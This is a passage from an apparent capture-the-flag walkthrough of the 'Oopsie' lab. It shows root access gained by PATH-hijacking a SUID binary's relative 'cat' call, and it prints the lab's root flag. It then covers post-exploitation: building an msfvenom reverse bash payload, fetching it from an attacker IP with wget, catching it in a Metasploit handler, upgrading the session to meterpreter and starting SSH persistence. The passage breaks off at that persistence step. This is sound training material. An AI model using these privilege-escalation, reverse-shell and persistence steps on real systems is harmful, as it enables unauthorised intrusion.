 		robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
		/usr/bin/bugtracker
		
		------------------
		: EV Bug Tracker :
		------------------
		
		Provide Bug ID: 4
		4
		---------------
		
		cat: /root/reports/4: No such file or directory
		```
	* Try `strings /usr/bin/bugtracker`
		```
		------------------
		: EV Bug Tracker :
		------------------
		Provide Bug ID: 
		---------------
		cat /root/reports/
		;*3$"
		GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
		```
		Results: We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.
		
	* Let's add the current working directory to PATH, create the malicious binary and make it executable.
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo '/bin/bash' > cat
		chmod +x cat
		```
		The relative `cat` command is now `/bin/bash`
		
	* Run `/usr/bin/bugtracker` and gain root.
		* `/bin/cat root.txt`
		* **Root Flag:** `af13b0bee69f8a877c3faf667f7beacf`

10. Post Exploitation
	1. Create exploit to run as root; `msfvenom -p cmd/unix/reverse_bash LHOST=10.10.15.117 LPORT=34847 -f raw > shell.sh`
	2. Host the new exploit for downloading: `sudo python3 -m http.server 80`
	3. Download exploit onto target: `wget 10.10.15.117/shell.sh`
	4. Open up port to listen on:
		```
		use exploit/multi/handler
		set payload cmd/unix/reverse_bash
		options
		set LHOST 10.10.15.117
		set LPORT 34847
		run
		```
	5. Run `./shell.sh` as root
	6. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	7. Allow access in at any time with SSH
		```